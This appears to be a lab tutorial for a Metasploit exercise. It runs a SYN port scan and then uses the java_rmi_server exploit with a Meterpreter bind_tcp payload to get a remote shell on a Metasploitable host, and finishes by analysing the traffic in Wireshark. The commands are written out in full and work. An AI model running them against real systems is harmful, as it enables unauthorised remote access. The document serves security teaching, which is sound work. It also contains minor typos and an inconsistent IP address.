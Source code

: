 1) In the Metasploit console select the ports scan command using **`use auxiliary/scanner/portscan/syc`**
2) Lets look at the options on this command with **`show options`** command
3) Here we see the details on the SYN scan we are about to launch against out Metasploitable host these parameters can be adjusted as needed to customize a scan as needed.
4) If you remember we need to add the RHOST IP address before we can launch this scan. Check your "sploit" IP address by hovering over the host in the web interface or click on the host to issue the `ifconfig` command in the host shell. Mine is 10.100.200.143
5) Finally launch the scan with exploit. See the code below

```bash
set RHOST 10.10.200.143 #Set the host to scan
exploit
```

6) This scan will hit the first 10000 ports as we saw when we issued the `show options` command. Note the open ports on the "sploit" machine. So many service so little time to exploit them all, since we don't have time to investigate and interrogate each open service to determine vulnerabilities we are just going to exploit some, trust me, ok don't trust me just cross your fingers...

### Create a Bind Shell

We are going to exploit a Java RMI vulnerability on the remote machine to enable connection via the Meterpreter remote console. Take a moment to read about the exploit from [null-byte](https://null-byte.wonderhowto.com/how-to/exploit-java-remote-method-invocation-get-root-0187685/)

1) Lets **start a packet capture** before the exploit so we can dissect what is happening. (open Wireshark and start a capture)
2) The Java RMI is exploitable, trust me or not, the exploit is available as part of Metasploit under **`/exploit/multi/misc/java_rmi_server`**. The following, replacing the RHOST IP with your IP for "sploit"

```bash
use exploit/multi/misc/java_rmi_server
set RHOST 10.100.200.143
set PAYLOAD java/meterpreter/bind_tcp
show options
exploit
```

You will notice that your msf command changes to "meterpreter", meaning that Metaspolit creates Java based shell called the Meterpreter using the `bind_tcp` version of that shell. The first state of that shell binds to a TCP port that waits for a Metasploit payload to be delivered. In short we have a access on the remote machine. Confirm this by listing the directories with **`ls`** or **`getuid`** to get your user id on the remote system.

3) Now lets take a look at how the exploit went down. Look at your packet capture, specifically the traffic going over the RMI port 1099 (filter on **`tcp.port == 1099`**). When you find a packet that looks interesting, right click on it and look at the TCP stream. Do you find a URL? What is that URL? What port is it pointing to? What IP is it pointing to?

4) From the prior discover in #9 we see that we are connecting to port 8080, lets filter on **`tcp.port == 8080`** to follow this lead. Right click on these packets to look into what is happening. What is this capture showing?

5) Check the shell port 4444 in the same manner by filtering on **`tcp.port == 4444`** and observe what appears to be happening. In the bottom of the "follow TCP stream" window you will find a way to observe the stream in **HEX dump** switch to that view. Can you put together how the exploit works from all you have seen?
